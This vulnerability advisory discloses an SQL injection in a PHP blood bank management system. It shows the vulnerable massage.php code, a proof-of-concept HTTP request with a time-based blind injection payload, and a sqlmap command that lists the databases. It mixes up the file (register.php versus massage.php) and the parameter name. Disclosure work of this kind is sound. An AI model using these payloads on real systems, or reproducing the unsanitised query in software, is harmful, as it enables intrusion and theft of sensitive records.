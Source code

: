 # blood-bank-system-in-php register.php Critical SQL injection.

[Blood Bank System In PHP With Source Code - Source Code & Projects (code-projects.org)](https://code-projects.org/blood-bank-system-in-php-with-source-code/)

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

## AFFECTED  VERSION(S)

### Vulnerable File

/admin/massage.php $bid parameter

### VERSION(S)

-  v1.0

### Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

## PROBLEM TYPE

## Vulnerability Type

Critical SQL injection By Remote Attack

## Root Cause

In the source code，The $book parameter in the massage.php is not filtered to the SQL statement. And $_POST['bid'] save as $book. Therefore, there is an SQL injection vulnerability in the bin parameter. Database information can be obtained through this SQL injection vulnerability

## Impact

## **Description of the vulnerability**

### massage.php

In the source code，The $book parameter in the massage.php is not filtered to the SQL statement. And $_POST['bid'] save as $book. Therefore, there is an SQL injection vulnerability in the bin parameter

```
<?php
	include '../config.php';
	

	if(isset($_POST['signup']))
	{
		$book=$_POST['bid'];
		
	$query = "UPDATE `requestblood` SET `message`='$book' WHERE `id`='".$_GET['uid']."'";
	$result = $con->query($query);	
	
	
	if($result === TRUE){
		echo 'Request has Successfully been Approved';
	?>
		<meta content="4; bloodupdate.php" http-equiv="refresh" />
	<?php
	}
}
?>
```

​                                                                                                                                                                                                                                                                                                                                                                                                                   

![image-20241018085212039](https://github.com/user-attachments/assets/2c77dd01-146a-48da-bb97-f7d8060bc4d7)



## **Vulnerability recurrence**

### **POC**

```
POST /admin/massage.php?uid=2 HTTP/1.1
Host: bloodbankmgmtsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------12584321521823622462105010551
Content-Length: 286
Origin: http://bloodbankmgmtsystem
Connection: close
Referer: http://bloodbankmgmtsystem/admin/massage.php
Cookie: PHPSESSID=cv0d48g7ufjr7vpu74ah7fgu7l
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------12584321521823622462105010551
Content-Disposition: form-data; name="bid"

2' AND (SELECT 1874 FROM (SELECT(SLEEP(5)))TlEY)-- jxOI
-----------------------------12584321521823622462105010551
Content-Disposition: form-data; name="signup"

Send
-----------------------------12584321521823622462105010551--
```

save as 1.txt

excute the command.

```
python sqlmap.py -r "1.txt"  --dbs
```

We can get  databases name via the sql injection vulnerability.

![image-20241018084937873](https://github.com/user-attachments/assets/ea640a6a-4e6c-47b6-8021-ff4c6f45b25d)

